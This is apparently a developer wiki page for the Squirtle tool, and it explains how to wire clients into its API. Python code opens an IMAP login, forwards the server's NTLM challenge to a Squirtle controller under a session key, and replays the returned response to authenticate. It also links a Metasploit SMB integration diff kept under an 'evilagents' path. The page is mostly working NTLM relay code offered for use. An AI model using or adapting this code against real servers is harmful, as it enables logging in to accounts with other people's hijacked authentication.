 # Introduction #

This will mostly be a quick brain-dump from how to modify existing code to support the Squirtle API. In general any service that already supports the Base64 Type messages will be VERY easy to integrate, depending upon the language used.

Those apps that support SMB need some extra special things.

# The Easy Ones (Base64 Type Messages) #

In order to support NTLM authentication, protocols such as IMAP, SMTP, POP3, NNTP and HTTP simply extended their protocols or added headers to permit the three-level authentication of negotiate, credentialize and authenticate. These are the easiest to integrate with the Squirtle API as you only need to extend their support for NTLM to pass the Type 2 and Type 3 messages back and forth.

  * Step 1: Send a Type 1 message to the server
  * Step 2: Receive the Type 2 challenge from the server
  * Step 3: Pass that challenge to Squirtle with the Session Key to authenticate
  * Step 4: Wait for Squirtle to respond (could take 5 to 10 seconds depending upon timeout values)
  * Step 5: Pass the Type 3 response to the server

For example this is all handled within the following python function:

```
def process_type2(msg2, sqkey='', squri="http://localhost:8080/", squser="squirtle", sqpass="eltriuqs"):
  msg2 = urllib.quote(msg2)
  auth_handler = urllib2.HTTPBasicAuthHandler()
  auth_handler.add_password(realm='Squirtle Realm',
                            uri=squri,
                            user=squser,
                            passwd=sqpass)
  urlopener = urllib2.build_opener(auth_handler)
  urllib2.install_opener(urlopener)

  dutchieurl = "%scontroller/type2?key=%s&type2=%s" % (squri, sqkey, msg2)
  try:
    res = urllib2.urlopen(dutchieurl)
  except urllib2.URLError, e:
    print '*** Error talking to Squirtle.' + str(e.code) + ': ' + e.reason + '\n'
    return ''

  response = res.read()
  try:
    response = simplejson.loads(response)
  except Exception, e:
    print '*** Error receiving response from Squirtle: ' + response + '\n'
    return ''

  if response['status'] == 'ok':
    NTLM_msg3 = response['result']
  else:
    print '*** Response from Squirtle: ' + response['status'] + '\n'

  return NTLM_msg3

def login_squirtle(server, sqkey):
  """Login as a user using the Squirtle API"""

  typ, dat = server.capability()
  if not "NTLM" in str(dat):
    raise self.error("!!! IMAP server does not support NTLM !!!")

  server.send("0001 AUTHENTICATE NTLM\r\n")
  dat = server.readline()
  if "+" not in dat:
    raise server.error("!!! Did not receive IMAP challenge: %s" % (dat))

  # generic ntlm type 1 message
  server.send("TlRMTVNTUAABAAAABzIAAAYABgArAAAACwALACAAAABXT1JLU1RBVElPTkRPTUFJTg==\r\n")
  dat = server.readline()
  if "+" not in dat:
    raise server.error("!!! Invalid response: %s" % (dat))

  msg3 = process_type2(dat[2:].strip(), sqkey, "http://localhost:8080/", "squirtle", "eltriuqs")
  if len(msg3) > 0:
    server.send("%s\r\n" % msg3)
    dat = server.readline()
    if "0001 OK" not in dat:
      raise server.error("!!! Did not receive OK message: %s" % (dat))

    server.state = 'AUTH'
  else:
    raise server.error("!!! No response from Squirtle")
  return
```

# SMB Protocol Integration #

When modifying an SMB protocol application to integrate with Squirtle a number of issues have to be resolved:

  * Passing the correct flags between the server and client
  * Creating a valid Type 2 message to pass to the client
  * Ripping out the correct sections of the messages
  * Does your application support Signing/Sealing?

In the case of Metasploit, Signing/Sealing isn't supported (yet). Samba however does so its integration steps would be a bit more but in essence as long as the messages are correctly formed everything should pass nicely.

View the [msf3.2-testing diff](http://code.google.com/p/squirtle/source/browse/trunk/evilagents/msf32-squirtle.diff) for details on the integration. It's certainly much more involved but should give you a good insight as to the challenges.